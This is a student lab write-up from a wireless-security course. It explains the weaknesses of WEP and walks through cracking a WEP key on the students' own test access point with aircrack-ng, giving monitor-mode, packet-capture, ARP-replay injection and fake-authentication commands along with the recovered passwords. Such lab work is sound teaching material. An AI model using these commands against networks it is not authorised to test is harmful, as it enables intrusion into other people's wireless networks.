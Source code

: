 ![logo uit](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/uit-logo.png)

# Project : Cracking WEP

Student 1: **17520771** – Lê Thị Huyền My

Student 2: **17521104** – Lê Thị Huyền Thư

Class: NT330.K21.**ANTN**

Lecturer: Lê Kim Hùng

Courses: Wireless Security

### [I.Introduce](#I.%20Introduce)

1. ### [Wired Equivalent Privacy](#1.%20Wired%20Equivalent%20Privacy%20(WEP))

2. ### [WEP Issues](#2.%20WEP%20Issues)

### [II.Hardware](#II.%20Hardware)

### [III.Cracking WEP](#III.%20Cracking%20WEP)

1. ### [Aircrack-ng](#1.%20Aircrack-ng)

    - [Step 1: Set up wifi modem (low password)](#Step%201:%20Set%20up%20wifi%20modem%20(low%20password))

    - [Step 2: Run monitor mode](#Step%202:%20Run%20monitor%20mode)

    - [Step 3: Capture wireless packet](#Step%203:%20Capture%20wireless%20packet)

    - [Step 4: Cracking WEP](#Step%204:%20Cracking%20WEP)

    - [Step 5: Set up wifi modem (advance password)](#Step%205:%20Set%20up%20wifi%20modem%20(advance%20password))

# I. Introduce

## 1. Wired Equivalent Privacy (WEP)

- WEP is an IEEE 802.11 wireless protocol which provides security algorithms for data confidentiality during wireless transmissions
- WEP uses 24-bit initalization vector (IV) to form stream cipher RC4 for confidentiality and the CRC-32 checksum for intergrity of wireless transmission.

## 2. WEP Issues

- The IV is a 24-bit field is too small and is sent in the cleartext portion of a message
- Identical key streams are produced with the reuse of the same IP for data protection, as the IV is short key streams are repeated within short time
- Lack of centralized key management makes it difficult to change the WEP keys with any regularity
- When there is IV collision, it becomes possible to reconstruct the RC4 keystream based in the IV and the decrypted payload of the packet
- IV is a part of the RC4 encryption key, leads to a analytical attack that recovers the key after intercepting and analyzing a relatively small amount of traffic
- Use of RC4 was designed to be a one-time cipher and not intended for multiples message use
- No defined method for encryption key distribution
- Wirless adapters from the same vendor may all generate the same IV sequence. This enables attackers to determine the key stream and decrypt the ciphertext
- Associate and disassociate messages are not authenticated
- WEP does not provide cryptographic integrity protection. By capturing two packets an attacker can flip a bit in the encrypted stream and modify the checksum so that the paket is accepted
- WEP is based on a password, prone to password cracking attacks
- An attacker can construct a decryption table of the reconstructed key stream and can use it to decrypt the WEP packets in real-time

# II. Hardware

- OS: Kali Linux 2020.1b amb64 in VMware Workstation 15
- AP: Tp-link TL-WN722N (installed drive Rtl8188eus)
- Core: 4 core
- RAM: 2GB
- SCSI: 80GB

# III. Cracking WEP

## 1. Aircrack-ng

### Step 1: Set up wifi modem (low password)

SSID: LETHIHUYEN \*; 128-bit key; low password: 1234567890123

![set up AP with low password](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/set-up-AP-low-pass.png)

### Step 2: Run monitor mode

> #airmon-ng start wlan0

Use the *iwconfig* command to check

![start mode monitor](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/start-mode-monitor.png)

### Step 3: Capture wireless packet

> #airodump-ng wlan0

Airodump-ng provides basic information cables such as: BSSID, beacons, data, channel, maximu speed, encryption algorithm, cipher detected, authentication protocol, ESSID

![ariodump-ng collect base information](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/airodump-ng-collect-information.png)

We need lock the wireless card on the same channel as the AP with the following command: # iwconfig wlan0mon channel 1

The basic injection test provides additional valuable information as well

> #aireplay-ng -9 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 wlan0
>
>> -9 means injection test
>>
>> -e LETHIHUYEN\* teddy is the network name (SSID)
>>
>> -a 72:F4:C2:D1:75:08 is MAC address of the access point (BSSID)
>>
>> -wlan0 is the interface name

![injection test](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/injection-test.png)

Capture wireless packet:

> #airodump-ng –bssid 72:F4:C2:D1:75:08 -c 1 -w WEPcrack wlan0
>
>> --bssid is MAC address of the access point
>>
>> -c 1 is AP channel
>>
>> -w WEPcrack: export to WEP crack file

![capture packet](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/capture-file-wepcrack.png)

Generate traffic:

> #aireplay-ng -3 -b 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:74 wlan0
>
>> -3 means standard arp request replay
>>
>> -b 72:F4:C2:D1:75:08 is the access point MAC address
>>
>> -h E0:62:67:49:0D:74 is the source MAC address

![generate traffic](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/generate-traffic-1.png)

> #aireplay-ng -1 0 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:7A wlan0
>
>> -1 means fake authentication
>>
>> 0 reassociation timing in seconds

![generate traffic](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/generate-traffic-2.png)

### Step 4: Cracking WEP

Use the command #aircrack-ng WEPcrack-01.cap to analyze IVs in the file WEPcrack-01.cap. Aircrack-ng can recover the WEP key once enough encrypted packets have been captured.

> Password: 1234567890123

![find low password in WEPcrack](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/find-low-pass.png)

### Step 5: Set up wifi modem (advance password)

Password: LTH\*=.=@uit10

![set up AP with advance passwork](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/set-up-AP-advance-pass.png)

The number of IVs collected is not enough for analysis, there will be a failure message showing the number of IVs needed.

![fail to find password](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/fail-to-get-pass.png)

We got the password

![find advance password](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/find-advance-pass.png)
